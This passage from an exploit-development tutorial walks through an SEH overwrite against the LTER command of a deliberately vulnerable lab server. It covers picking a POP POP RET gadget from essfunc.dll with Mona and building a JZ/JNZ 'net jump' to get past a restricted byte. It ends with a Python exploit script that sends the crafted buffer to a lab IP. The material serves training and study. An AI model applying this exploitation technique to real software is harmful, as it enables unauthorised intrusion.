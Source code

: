 And our stack looks great!

![](/assets/images/CTP/LTERgoodstack.JPG)

Next we need to place a `POP POP RET` into our `C` buffer space. Let's let Mona do the dirty work with a `!mona seh -cp ascii` command. 

![](/assets/images/CTP/LTERseh.JPG)

Let's use one of the `essfunc.dll` gadgets and grab the one at address `6250172B`.

Next we need to place jump code into the 'next SEH record' space that will land us in our `D` value buffer. Let's use our trust 'Net Jump' technique since `EB` is restricted. We'll accomplish this by juxtaposing the opcodes \x74 (JZ) and \x75 (JNZ) and jump lengths of `0x06` and `0x04`. Since one of these is always true, we will end up in our `D` buffer. 

So now our exploit looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
Seh = '\x2b\x17\x50\x62'

buffer = 'A' * 3514
buffer += nSeh
buffer += Seh
buffer += 'D' * (4000 - 3514 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
